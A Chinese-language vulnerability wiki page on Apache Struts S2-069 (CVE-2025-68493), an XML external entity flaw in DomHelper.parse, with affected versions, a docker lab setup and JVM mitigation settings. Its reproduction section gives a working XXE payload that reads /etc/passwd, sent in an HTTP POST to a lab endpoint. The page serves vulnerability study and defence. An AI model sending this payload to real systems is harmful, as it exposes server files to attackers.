


# Apache Struts S2-069 XML 外部实体注入漏洞 CVE-2025-68493

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：自定义代码调用DomHelper.parse并把不可信XML输入交给它；示例人工XXEAction，不是默认远程端点
- 证据范围：明确默认框架未直接暴露及自定义action，大幅避免泛化；版本分支和临时缓解条款与官方一致。

### 已有来源支持的更正

- 官方确认分支范围、6.1.1修复及自定义SAX工厂/JVM XML属性缓解

### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 修复章节只列临时参数，漏官方至少6.1.1升级建议
- /demo和xmlContent均自建Action字段，不能当通用产品路径
- 应给自定义Action的输入/返回代码及解析器限制以完成可复现条件

### 核验来源

- https://cwiki.apache.org/confluence/spaces/WW/pages/404161000/S2-069

### 操作风险与资料使用

- 含资源消耗、延时或崩溃验证：可能影响服务可用性；限制请求次数、并发与超时，保留无攻击负载的对照结果。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Apache Struts 是一个开源的 MVC（Model-View-Controller）Web 应用框架，广泛用于构建 Java EE 企业级 Web 应用程序。它通过简化开发流程、提供强大的标签库和拦截器机制，帮助开发者快速构建结构清晰、可维护性高的动态网站。Struts 2 架构基于 XWork 命令模式框架，支持插件化扩展，并长期作为 Java Web 开发的主流选择之一。

Apache Struts XWork-Core 组件中对 XML 解析器安全选项配置不当，攻击者可利用该漏洞，通过构造恶意的 XML 数据并发送至受影响的 Apache Struts 应用，触发 XML 外部实体注入，进而实现数据泄露、SSRF、拒绝服务等攻击。该漏洞的利用条件是在自定义代码中使用了 `com.opensymphony.xwork2.util.DomHelper.parse` 危险函数。

注意，该漏洞 Struts 框架默认不受影响，`com.opensymphony.xwork2.util` 只是一个工具类，`DomHelper.parse` 需要开发者显式调用，因此影响范围较小。

参考链接：

- https://cwiki.apache.org/confluence/display/WW/S2-069
- http://www.openwall.com/lists/oss-security/2026/01/11/2
- https://xz.aliyun.com/news/91188

## 漏洞影响

```
2.0.0 <= Apache Struts <= 2.3.37（EOL）
2.5.0 <= Apache Struts <= 2.5.33（EOL）
6.0.0 <= Apache Struts <= 6.1.0
```

## 环境搭建

参考 [环境配置](https://github.com/Threekiii/Awesome-POC/tree/master/base/struts2/s2-069) ，执行如下命令启动一个 Struts 2.5.25 服务：

```shell
docker-compose up -d
```

服务启动后，访问 `http://your-ip:8080` 即可访问主页。




## 漏洞复现

启动环境后，访问 `http://your-ip:8080/demo` 即可访问接口。该接口是参考 [该文章](https://xz.aliyun.com/news/91188) 创建的一个 XXEAction，用于解析传入的 XML。

Apache Struts XWork-Core 组件在解析 XML 配置时，未对 XML 进行严格的验证和安全配置，导致存在 XML 外部实体注入漏洞。构造一个恶意 XML 实体进行文件读取：

```
<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
```

```http
POST /demo HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded

xmlContent=%3C%3Fxml+version%3D%221.0%22%3F%3E%3C%21DOCTYPE+foo+%5B%3C%21ENTITY+xxe+SYSTEM+%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%5D%3E%3Cfoo%3E%26xxe%3B%3C%2Ffoo%3E
```




## 漏洞修复

对于暂时无法完成版本升级的用户，可采取以下临时缓解措施：

- 使用自定义 SAXParserFactory：配置系统属性 `xwork.saxParserFactory`，指定一个默认禁用外部实体的自定义工厂类，阻止恶意外部实体的解析；
- 配置 JVM 级别的安全参数：通过设置系统属性禁用 XML 解析器对外部实体的访问，具体配置如下：

```
-Djavax.xml.accessExternalDTD=""
-Djavax.xml.accessExternalSchema=""
-Djavax.xml.accessExternalStylesheet=""
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
